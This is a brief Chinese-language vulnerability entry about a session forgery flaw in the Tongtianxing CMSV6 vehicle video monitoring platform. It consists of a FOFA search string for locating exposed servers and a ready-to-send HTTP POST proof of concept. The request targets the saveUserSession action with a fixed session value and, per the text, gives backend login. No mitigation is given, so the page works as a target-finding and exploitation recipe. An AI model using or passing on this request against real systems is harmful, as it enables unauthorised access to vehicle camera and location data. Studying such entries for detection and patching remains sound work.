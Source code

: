 # 通天星CMSV6车载视频监控平台SESSION伪造漏洞

通天星CMSV6车载定位监控平台拥有以位置服务、无线3G/4G视频传输、云存储服务为核心的研发团队，专注于为定位、无线视频终端产品提供平台服务，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。其存在SESSION伪造漏洞，恶意攻击者利用此漏洞登录系统后台。

## fofa

```yaml
body="/808gps"
```

## poc

```yaml
POST /808gps/LocationManagement/UserSessionAction_saveUserSession.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0(WindowsNT10.0;Win64;x64;rv:103.0)Gecko/20100101Firefox/103.0
Content-Type: application/x-www-form-urlencoded

userSession=42AA7A2BE767123A42E1530ACC920781&amp;amp;id=4
```

